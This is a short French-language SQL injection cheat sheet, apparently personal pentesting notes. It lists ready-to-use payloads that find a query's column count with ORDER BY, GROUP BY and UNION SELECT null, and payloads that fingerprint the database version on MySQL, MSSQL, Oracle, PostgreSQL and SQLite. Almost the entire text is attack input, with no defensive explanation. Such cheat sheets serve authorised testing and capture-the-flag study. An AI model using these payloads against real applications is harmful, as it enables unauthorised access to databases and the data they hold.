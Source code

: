 ## ORDER BY / GROUP BY

Incrémenter jusqu'à erreur :

```sql
cn' GROUP BY 1 #
```

```sql
1 GROUP BY 1 --
```

```sql
1' GROUP BY 1 --
```

```sql
cn' ORDER BY 1 #
```

```sql
' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100-- -
```

## UNION SELECT

Incrémenter jusqu'à ce que ça soit correct :

```sql
cn' UNION SELECT null #
cn' UNION SELECT null,null #
cn' UNION SELECT null,null,null #
```


# Enumération de la DB #UnionBased

## Identifier la version de la DB #SQL  

```sql
cn' UNION SELECT 1, @@version, 3, 4 #MYSQL / MSSQL / MARIADB
```

```sql
cn' UNION SELECT * FROM v$version #ORACLE
```

```sql
cn' UNION SELECT 1, version(), 3, 4 #POSTGRESQL
```

```sql
cn' UNION SELECT 1, sqlite_version(), 3, 4 --SQLITE
```
